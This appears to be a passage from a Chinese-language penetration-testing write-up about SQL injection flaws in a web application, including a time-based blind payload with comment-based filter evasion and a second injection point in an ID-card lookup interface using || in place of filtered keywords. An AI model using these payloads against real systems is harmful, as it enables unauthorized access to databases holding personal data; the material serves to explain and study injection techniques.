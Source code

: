 ```
1%20or%20Y(point(56.7,53.34))%20or%20(select/**/0/**/from/**/(select/**/if((ascii(right(left(user/*!55555*/(),1),1))!=1),(select/*!55555555555555555*/benchmark(511111111,1)),1))x)
```

  
  
发现使用了两个or，而Y()是恒为真的，但是我们依旧无法判断ordertype=1是否存在，如果不存在的话，那么ordertype=1为假，而Y()为真，我们最后的注入语句就无法实现精准判断，所以我们这里使用子查询语句，就不用考虑ordertype=1的真假性。  
  
系统先执行内层语句，也就是  

```
select if((ascii(right(left(user/*!55555*/(),1),1))!=1),(select/*!5555555555555555555555*/benchmark(51111111,1),1))
```

  
  

```
select 0 from () x
```

  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/XoIcX2HtlUAH1m5FBRwSYBjAbhmpROpqhWTbZiaKiaw18PjSXWWATYG2OUibNxLhhYNFPxia1WoNEcRh5TiadkW8agQ/640?wx_fmt=png&from=appmsg "")  
  
达到了一个时间盲注的目的。  
  
  
**4**  
►  
  
**第三处SQL注入**  
  
  
这是一个拿身份证查信息的接口，tj是注入点，加一个单引号可以看到进行报错。  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/XoIcX2HtlUAH1m5FBRwSYBjAbhmpROpqORqKgqs0d32jvfQBZU6h4hCCQEibeHicL2mcel5ibF9Gqrk1IPJhGruxw/640?wx_fmt=png&from=appmsg "")  
  
  
多加几个单引号，分析一下。  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/XoIcX2HtlUAH1m5FBRwSYBjAbhmpROpqRx1CN7I0QLl0O3iaG4biazxY36f8EVsccgYcADiccsib34gdt0Fxje9W3Q/640?wx_fmt=png&from=appmsg "")  
  
  
可以看到原本的逻辑应该是 sfzh='123123' and xm='12331'，这里的123123是我随便输入的身份证号,12331是我随意输入的姓名。  
  
于是构造闭合，直接让
```
tj=sfzh=1#
```

  
,这样进行闭合，这样就变成了 
```
sfzh=1 and (注入语句) #
```

  
 然后这里and or 被过滤了，我选择使用 || 来代替，发现 
```
|| 1=1#
```
